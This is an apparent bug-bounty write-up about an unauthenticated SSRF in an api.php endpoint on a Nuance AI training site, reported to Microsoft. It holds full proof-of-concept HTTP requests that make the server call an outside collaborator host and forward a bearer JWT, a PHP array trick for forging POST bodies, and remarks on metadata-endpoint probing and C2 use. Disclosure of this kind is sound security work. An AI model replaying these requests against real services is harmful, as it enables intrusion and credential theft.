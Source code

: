 ```yaml
---
title: "Unauth HTTP SSRF in Nuance Ai Training Platform"
date: 2024-12-02T11:30:37-05:00
draft: true
tags: ["nuance", "ssrf", "ai", "msrc"]
---
```


I submitted another HTTP SSRF in MS services via MSRC recently, this time within an insecure `api.php` endpoint I found on `train.digital.nuance.com`. 

This was a full HTTP SSRF, capable of interacting with internal services, could be used for both GET and POST requests, including sending full POST bodies with arbitrary parameter/value pairs. This SSRF was also CSRF-able, and also resulted exfiltration of user authentication tokens in the form of JWTs.

## Bounty?
None. A few weeks after submission, MS responded that they confirmed the bug, were investigating the issue, and asked for any more information I could provide. At this time I dug in a little bit more, finding the ability to submit full POST requests with bodies and arbitrary params. They didn't reply, and closed the case.

No "thank you", no "We've fixed it"... nothing, lol

![lame](image.png)

Anyway, here are the details.

## api.php

While performing some recon against MS infra, I came across an interesting site, `train.digital.nuance.com`, that appeared to be an online chat testing application. This app let users to connect to virtual "Agents" and interact with them and judging by the aptly named domain, it seemed likely this platform was intended to be used to train AI agents for Nuance, a Microsoft owned conversational AI.

Most of the traffic sent to the app were POSTs to an `api.php` endpoint, and contained several suspicious body params:
- `body`
- `domain`
- `endpoint`
- `params`, and
- `type`

Flipping the `domain` parameter to a burp collab server, the app sent the request and it turned out to be a full HTTP SSRF, response and everything. After playing with params the following PoC was reasonable enough to demonstrate some behavior.

Request:
```http
POST /api.php?tagserver/launch/agentAvailability HTTP/1.1
Host: train.digital.nuance.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 873

body=%7Baaaa%7D&domain=176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com&endpoint=test_endpoint&params=test_param%3dtest_value&token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJudWFuY2VTbW9vY2hDbGllbnQiLCJhdWQiOlsiY2VhcGkiLCJmdCIsImRjYXBpIl0sImFsbFNpdGVBY2Nlc3MiOnRydWUsIm5iZiI6MTcyOTczMjM4NCwic2NvcGUiOlsicmVhZCJdLCJpc3MiOiJodHRwczovL2NoYXQuZGlnaXRhbC5udWFuY2UuY29tL29hdXRoLXNlcnZlciIsImV4cCI6MTcyOTczNTk4NCwiaWF0IjoxNzI5NzMyMzg0LCJqdGkiOiJWXy1HY0RQbGJMMnpiUElYU3FsbmV6Z0labUUiLCJjbGllbnRfaWQiOiJudWFuY2VTbW9vY2hDbGllbnQifQ.LylPZduF4kJEGU4QiKX43BUY5GBF_JkCZ-NhVbKrtIeHB8SQSopn0-_T0c6o6d5bOtqEsiW_4-RfGZgZ8hrJVV2-DkRyPk1kQ61SiZAW_YumL0qSRUuOvtVKE0_5Kg5CPubP_9r2_glIFd4Ji12uCKZmGmCkh0gTqwT4ghajJsvBdWAR3v5CS1f7fbCOwwvwehniMrPrNP6mP_iq-L62YnAq9pImRm4c5wkwzrivvYKmrk2y46iYara7zUqW0rauk4MDTc8ljyW5-LV8g-HoqcmuaUAe8tKxpXW5_rKP2t8cwV6F0vMUdaDHuZcNsiNfKK14MzlDxfF_tq3Y4CPMeg&type=POST
```

Response:
```http
HTTP/1.1 200 OK
Date: Mon, 28 Oct 2024 02:04:30 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
X-Powered-By: PHP/7.3.33
Content-Security-Policy: default-src 'self' *.digital.nuance.com *.inq.com; script-src 'self' 'unsafe-eval' 'unsafe-inline' *.digital.nuance.com *.inq.com code.angularjs.org cdnjs.cloudflare.com; connect-src 'self' *.digital.nuance.com *.inq.com; img-src 'self' data: *.digital.nuance.com *.inq.com; style-src 'self' 'unsafe-inline' *.digital.nuance.com *.inq.com fonts.googleapis.com maxcdn.bootstrapcdn.com cdnjs.cloudflare.com; base-uri 'self'; form-action 'self'; frame-src 'self' *.digital.nuance.com *.inq.com; font-src fonts.gstatic.com maxcdn.bootstrapcdn.com; frame-ancestors 'self'; object-src 'none';
X-Robots-Tag: none
Content-Length: 56
Content-Type: text/html; charset=UTF-8

<html><body>8orwedk9n9l52x76qgo508zjjgmogz</body></html>
```

Collab Receives:
```http
POST /test_endpoint?test_param=test_value HTTP/1.1
Host: 176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJudWFuY2VTbW9vY2hDbGllbnQiLCJhdWQiOlsiY2VhcGkiLCJmdCIsImRjYXBpIl0sImFsbFNpdGVBY2Nlc3MiOnRydWUsIm5iZiI6MTcyOTczMjM4NCwic2NvcGUiOlsicmVhZCJdLCJpc3MiOiJodHRwczovL2NoYXQuZGlnaXRhbC5udWFuY2UuY29tL29hdXRoLXNlcnZlciIsImV4cCI6MTcyOTczNTk4NCwiaWF0IjoxNzI5NzMyMzg0LCJqdGkiOiJWXy1HY0RQbGJMMnpiUElYU3FsbmV6Z0labUUiLCJjbGllbnRfaWQiOiJudWFuY2VTbW9vY2hDbGllbnQifQ.LylPZduF4kJEGU4QiKX43BUY5GBF_JkCZ-NhVbKrtIeHB8SQSopn0-_T0c6o6d5bOtqEsiW_4-RfGZgZ8hrJVV2-DkRyPk1kQ61SiZAW_YumL0qSRUuOvtVKE0_5Kg5CPubP_9r2_glIFd4Ji12uCKZmGmCkh0gTqwT4ghajJsvBdWAR3v5CS1f7fbCOwwvwehniMrPrNP6mP_iq-L62YnAq9pImRm4c5wkwzrivvYKmrk2y46iYara7zUqW0rauk4MDTc8ljyW5-LV8g-HoqcmuaUAe8tKxpXW5_rKP2t8cwV6F0vMUdaDHuZcNsiNfKK14MzlDxfF_tq3Y4CPMeg
Content-Length: 0
```

A few things about the request / responses above:
1. I changed the `endpoint`, `params`, and `type` values to see if those were sent too (they are) or modified the request method (they do)
2. The `token` parameter, a JWT, was automagically added by the app, no auth was actually needed
3. A POST is received by the collab (cool), but data in the `body` param wasn't sent... note that it was `{}` by default
4. The request was CSRF-able

I found it was also possible to interact with internal resources, such as VM metadata URLs, `http://169.254.169.254/xxx`. This could be inferred from application responses which included the error codes of the SSRF request itself, a useful mechanism for my purposes. Unfortunately, it wasn't possible to return data from the metadata URLs, as there wasn't a way to inject the required headers into the SSRF request (`metadata: true`). This, at least, provided some nice proof that interaction with local / internal resources was possible.

## Elevating the issue

One limitation of this bug remained the inability to forward POST bodies, even though the request method could be changed to a POST and an apparent `body` parameter was present in the request. After trying a few more things, I recalled the server's response headers contained `X-Powered-By: PHP/7.3.33`. This clicked, and I sent a request with the `body` param of `body[]=test`, an attempt to leverage PHP functionality known as "type-juggling":

```http
POST /api.php?tagserver/launch/agentAvailability HTTP/1.1
Host: train.digital.nuance.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 873

body[]=test&domain=176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com&endpoint=test_endpoint&params=test_param%3dtest_value&token=[...]&type=POST
```

and now, the collaborator received:
```http
POST /test_endpoint?test_param=test_value HTTP/1.1
Host: 176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer [...]
Content-Length: 6

0=test
```

Surprise! Data could be sent after all. This is great, but a POST body parameter named `0` is unlikely to be particularly useful.

I've used type juggling before, but I didn't know it's possible to create an array element with an arbitrary name using it. Meaning, it becomes possible to send something like `body[param]=value` and forge a request that sends a POST body of `param=value`:

Request:
```http
POST /api.php?tagserver/launch/agentAvailability HTTP/1.1
Host: train.digital.nuance.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 879

body[param]=value&domain=176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com&endpoint=test_endpoint&params=test_param%3dtest_value&token=[...]&type=POST
```

Collab receives:
```http
POST /test_endpoint?test_param=test_value HTTP/1.1
Host: 176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer [...]
Content-Length: 11

param=value
```

## Cool, right? 

This bug went from a simple HTTP SSRF to something much more, very quickly. To summarize, it let an attacker:

- Send and receive full HTTP requests to arbitrary destinations, including internal services
- Send both GET and POST methods, including arbitrarily provided URL and POST body parameters
- Exfiltrate data through the `body` and `token` parameters, resulting in requests routed through Microsoft infrastructure
    - This is also potentially very useful for C2, as traffic appears to be sent to legitimate Microsoft services

Even though Microsoft didn't provide any bounty for this issue, it was fun to see a full SSRF, something of a rareity these days. Also, a legitimate use for type juggling was fun to find, not sure I've ever used it in this fashion.

